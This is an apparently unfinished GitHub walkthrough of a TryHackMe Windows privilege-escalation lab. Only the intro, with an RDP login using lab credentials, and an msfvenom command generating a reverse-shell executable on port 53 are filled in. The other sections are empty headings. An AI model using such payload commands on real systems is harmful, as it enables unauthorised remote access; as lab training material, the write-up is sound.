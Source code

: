 # Windows 10 Priv Esc room From TryHackMe

[1. Intro](#intro)

[2. Generating a Reverse Shell Executable](#generating-a-reverse-shell-executable)

[3. Service Exploits - Insecure Service Permissions](#service-exploits---insecure-service-permissions)

[4. Service Exploits - Unquoted Service Path](#service-exploits---unquoted-service-path)

[5. Service Exploits - Weak Registry Permissions](#service-exploits---weak-registry-permissions)

[6. Service Exploits - Insecure Service Executables](#service-exploits---insecure-service-executables)

[7. Registry - AutoRuns](#registry---autoruns)

[8. Registry - AlwaysInstallElevated](#registry---alwaysinstallelevated)

[9. Passwords - Registry](#passwords---registry)

[10. Passwords - saved creds](#passwords---saved-creds)

[11. Passwords - Security Account Manager (SAM)](#passwords---security-account-manager-sam)

[12. Passwords - Passing the Hash](#passwords---passing-the-hash)

[13. Scheduled Tasks](#scheduled-tasks)

[14. Insecure GUI Apps](#insecure-gui-apps)

[15. Startup Apps](#startup-apps)

[16. Token Impersonation - Rogue Potato](#token-impersonation---rogue-potato)

[17. Token Impersonation - PrintSpoofer](#token-impersonation---printspoofer)

[18. Privilege Escalation Scripts](#privilege-escalation-scripts)

## Intro

`xfreerdp /u:user /p:password321 /cert:ignore /v:MACHINE_IP`

![image](https://user-images.githubusercontent.com/83407557/181599686-6ed867b0-25b4-47b1-8994-6fda5b5b3e36.png)
*image source https://tryhackme.com/room/windows10privesc*

## Generating a Reverse Shell Executable

The first step is going to be to create a reverse shell executable using msfvenom. Then I need to transfer this binary over to the target machine. The authors of this room have you transfer this file via SMB. However there are other ways of doing this, that I will also show here. They include, transfering the binary via FTP, netcat, exe2hex, and http. Depending on the firewalls certain ports may not be available, having multiple ways to transfer your files in your virtual tool belt is always a good thing.

### Creating reverse.exe

We need to know our ipv4 address on the tryhackme VPN before we can craft our revshell. Also in the example the author uses port 53 as the listening port. This is the port normally used by DNS, we may be using this for firewall reasons or because it is a good port to hide traffic, in any case I will be keeping it the same for my binary.

![image](https://user-images.githubusercontent.com/83407557/181602930-78389fa7-8de1-4d9c-bfb0-821e62fb4b48.png)*getting ipv4 address on THM vpn*

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.77.38 LPORT=53 -f exe -o reverse.exe`

![image](https://user-images.githubusercontent.com/83407557/181603375-da05a314-7e5a-43ed-ac1b-ae194ac8bd25.png)*Creating binary with msfvenom*

### Transfering reverse.exe Via SMB (The authors way)




## Service Exploits - Insecure Service Permissions
## Service Exploits - Unquoted Service Path
## Service Exploits - Weak Registry Permissions
## Service Exploits - Insecure Service Executables
## Registry - AutoRuns
## Registry - AlwaysInstallElevated
## Passwords - Registry
## Passwords - saved creds
## Passwords - Security Account Manager (SAM)
## Passwords - Passing the Hash
## Scheduled Tasks
## Insecure GUI Apps
## Startup Apps
## Token Impersonation - Rogue Potato
## Token Impersonation - PrintSpoofer
## Privilege Escalation Scripts
